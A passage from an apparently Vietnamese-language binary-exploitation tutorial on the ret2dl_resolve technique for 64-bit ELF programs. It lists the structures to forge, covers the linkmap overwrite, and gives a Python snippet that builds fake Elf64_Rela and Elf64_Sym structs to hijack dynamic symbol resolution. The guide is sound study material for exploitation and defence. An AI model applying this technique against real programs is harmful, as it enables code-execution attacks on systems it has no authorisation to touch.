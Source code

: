       2) Vùng .bss được ánh xạ nơi có địa chỉ dạng `0x40xxxx` - Trường hợp này khai thác như trên 32 bit khi mà mã nguồn chương trình cần khai thác chỉ có một hàm `read` từ libc và khi đó struct fake tại .bss không quá lớn dẫn đến lỗi `check version`.

### [*] Tóm lại cần fake 

**1.** `Rela_offset` - Argument function `_dl_runtime_resolve` .

**2.** `Elf64_Rela->r_info` - Fake struct Elf64_Rela .

**3.** `Elf64_Sym->st_name` - Fake struct Elf64_Sym .

**4.** Leak `linkmap` bằng hàm libc nếu có và ghi đè giá trị của `linkmap + 0x1d0` ( hoặc `linkmap + 0x1c8` tùy phiên bản libc ) thành NULL (TH: .bss => 0x60xxxx) .

Để khai thác cần tính toán, lựa chọn vị trí và align phức tạp nữa nên một lần nữa tôi nhấn mạnh đây chỉ giống như `cheat sheet` => đọc và làm ví dụ tôi để trong mẫu 64 bit (có cả hai trường hợp).

```python
### FAKE INFO
forged_area = base_stage + 40 # 64 - 8 * 3         # fake contain struct from fake + 40 = EXAMPLE

addr_rela = forged_area
align_rela = 24 - ((addr_rela - JMPREL) % 24)
addr_rela = addr_rela + align_rela

addr_sym = addr_rela + 24
align_sym = 24 - ((addr_sym - SYMTAB) % 24)
addr_sym = addr_sym + align_sym

log.info("Align rela: " + hex(align_rela))
log.info("Align sym: " + hex(align_sym))

addr_string = addr_sym + 24

rela_offset = (addr_rela - JMPREL) // 24
index_sym = (addr_sym - SYMTAB) // 24
r_info = (index_sym << 32) | 0x7
st_name = addr_string - STRTAB

### FAKE STRUCT
fake_rela_struct =  p64(read_got) + p64(r_info) + p64(0)

fake_sym_struct = p32(st_name) + p32(0x12) + p64(0) + p64(0)
```

### B) FAKE Link_map.

Tôi chưa thử trường hợp này bao giờ, bạn có thể tham khảo nó qua bài viết này [ret2dl_resolve-fake_link_map](https://chung96vn.wordpress.com/2018/12/28/ret2dlresolve-technique/) .

---------------------------------------------------

### Reference Source:

[+] https://www.lazenca.net/pages/viewpage.action?pageId=19300744

[+] https://syst3mfailure.io/ret2dl_resolve

[+] http://rk700.github.io/2015/08/09/return-to-dl-resolve/

[+] https://chung96vn.wordpress.com/2018/12/28/ret2dlresolve-technique/

